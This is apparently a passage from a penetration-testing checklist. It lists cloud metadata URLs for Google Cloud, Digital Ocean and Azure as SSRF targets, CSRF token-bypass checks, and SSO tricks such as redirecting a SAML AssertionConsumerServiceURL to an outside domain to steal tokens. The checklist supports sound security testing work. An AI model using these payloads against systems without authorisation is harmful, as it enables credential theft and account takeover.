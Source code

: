         - Google Cloud
            
            ```markup
            http://169.254.169.254/computeMetadata/v1/
            http://metadata.google.internal/computeMetadata/v1/
            http://metadata/computeMetadata/v1/
            http://metadata.google.internal/computeMetadata/v1/instance/hostname
            http://metadata.google.internal/computeMetadata/v1/instance/id
            http://metadata.google.internal/computeMetadata/v1/project/project-id
            ```
            
        - Digital Ocean
            
            ```markup
            curl http://169.254.169.254/metadata/v1/id
            http://169.254.169.254/metadata/v1.json
            http://169.254.169.254/metadata/v1/ 
            http://169.254.169.254/metadata/v1/id
            http://169.254.169.254/metadata/v1/user-data
            http://169.254.169.254/metadata/v1/hostname
            http://169.254.169.254/metadata/v1/region
            http://169.254.169.254/metadata/v1/interfaces/public/0/ipv6/address
            ```
            
        - Azure
            
            ```
            http://169.254.169.254/metadata/v1/maintenance
            http://169.254.169.254/metadata/instance?api-version=2017-04-02
            http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
            ```
            
    - [ ]  Bypassing via open redirection
    - [ ]  Blind SSRF
- **CSRF Testing**
    - Application has Anti-CSRF token implemented
        - [ ]  Removing the Anti-CSRF Token
        - [ ]  Altering the Anti-CSRF Token
        - [ ]  Using the Attacker’s Anti-CSRF Token
        - [ ]  Spoofing the Anti-CSRF Token
        - [ ]  Using guessable Anti-CSRF Tokens
        - [ ]  Stealing Anti-CSRF Tokens
    - Application uses Double Submit Cookie
        - [ ]  Check for session fixation on subdomains
        - [ ]  Man in the the middle attack
    - Application validates the Referrer or the Origin of the request received
        - [ ]  Restricting the CSRF POC from sending the Referrer header
        - [ ]  Bypass the whitelisting/blacklisting mechanism used by the application
    - Sending data in JSON/XML format
        - [ ]  By using normal HTML Form1
        - [ ]  By using normal HTML Form2 (By Fetch Request)
        - [ ]  By using XMLHTTP Request/AJAX request
        - [ ]  By using Flash file
    - Samesite Cookie attribute
- **SSO Vulnerabilities**
    - [ ]  If internal.company.com Redirects You To SSO e.g. auth.company.com, Do FUZZ
    On Internal.company.com
    - [ ]  If company.com/internal Redirects You To SSO e.g. Google login, Try To Insert
    public Before internal e.g. company.com/public/internal To Gain Access Internal
    - [ ]  Try To Craft SAML Request With Token And Send It To The Server And Figure
    Out How Server Interact With This
    - [ ]  If There Is AssertionConsumerServiceURL In Token Request Try To Insert Your
    Domain e.g. http://me.com As Value To Steal The Token
    - [ ]  If There Is AssertionConsumerServiceURL In Token Request Try To Do FUZZ
    On Value Of AssertionConsumerServiceURL If It Is Not Similar To Origin